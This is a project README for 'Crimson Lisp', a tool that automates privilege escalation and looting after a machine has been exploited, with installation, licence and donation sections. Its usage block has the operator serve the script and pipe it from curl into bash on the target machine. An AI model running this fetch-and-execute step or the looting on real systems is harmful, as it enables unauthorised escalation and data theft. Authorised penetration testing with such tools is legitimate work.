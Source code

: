# Crimson Lisp

> Crimson Lisp is a tool that automates post-exploitation `PRIVILEGE ESCALATION` & `LOOTING` phases.
> It uses many open source tools. Most of them are available for download from GitHub.

<p align="center">
  <img src="lisp.png" />
</p>

# Installation
```bash
git clone https://github.com/Karmaz95/crimson_lisp.git
```
# Usage
```bash
# ON THE HOST MACHINE - start the web server:
python3 -m http.server 80

# ON THE TARGET MACHINE - download and execute
curl -s http://127.0.0.1/lisp.sh | bash -s "-e" "-l"

        # -e => PRIVILEGE ESCALATION
        # -l => LOOTING
```
# HISTORY
> If you are curious about how it works, read my blog:
<MEDIUM PLACEHOLDER>

# LICENSE
> This program is free software: you can redistribute it and/or modify it under the terms of the [Apache License](https://choosealicense.com/licenses/apache-2.0/). Crimson Lisp and any contributions are Copyright © by Karol Mazurek 2022.

# SUPPORT
> You can support the project by buying me a coffee or via [NFT](https://opensea.io/assets/matic/0x2953399124f0cbb46d2cbacd8a89cf0599974963/63545429842149574507305116647116186975620361263604520406486432940112228647212/) which unlock the secret Crimson Web community.

<a href="https://www.buymeacoffee.com/karmaz95" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-red.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 200px !important;" ></a>